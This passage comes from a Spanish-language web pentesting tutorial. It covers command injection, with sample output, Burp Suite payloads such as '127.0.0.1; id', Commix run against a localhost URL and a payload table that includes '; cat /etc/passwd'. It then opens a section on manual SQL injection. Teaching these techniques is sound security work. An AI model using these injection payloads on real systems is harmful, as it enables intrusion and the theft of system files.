 ```bash
PING 127.0.0.1 ...

www-data
```

➡️ El atacante ahora sabe qué usuario ejecuta el servidor web.

---

### 🧰 Herramientas para automatizar pruebas

- **Burp Suite** → Puedes interceptar el parámetro vulnerable y probar con payloads como:

  - `127.0.0.1; id`
  - `127.0.0.1 && uname -a`

- **Commix** (herramienta automática para Command Injection)

#### Cómo instalar Commix:

```bash
git clone https://github.com/commixproject/commix.git
cd commix
python3 commix.py --url="http://localhost:8080/vuln.php?host=127.0.0.1"
```

Commix probará automáticamente diferentes inyecciones y te dará una shell si tiene éxito.

---

### 🧪 Payloads comunes

| Payload             | Qué hace                    |                             |
| ------------------- | --------------------------- | --------------------------- |
| `; whoami`          | Muestra el usuario actual   |                             |
| `&& uname -a`       | Muestra info del sistema    |                             |
| \`                  | ls /\`                      | Lista el contenido del raíz |
| `; cat /etc/passwd` | Muestra archivo de usuarios |                             |

---

[🔼](#índice)

---

## **1005. SQL Injection Manual**

### 🧠 ¿Qué es SQL Injection Manual?

**SQL Injection Manual** es una técnica usada para explotar vulnerabilidades en aplicaciones web que **no filtran correctamente los datos enviados por el usuario a una base de datos**. Esto permite inyectar comandos SQL directamente, sin automatización ni herramientas, solo usando el navegador o Burp Suite.

---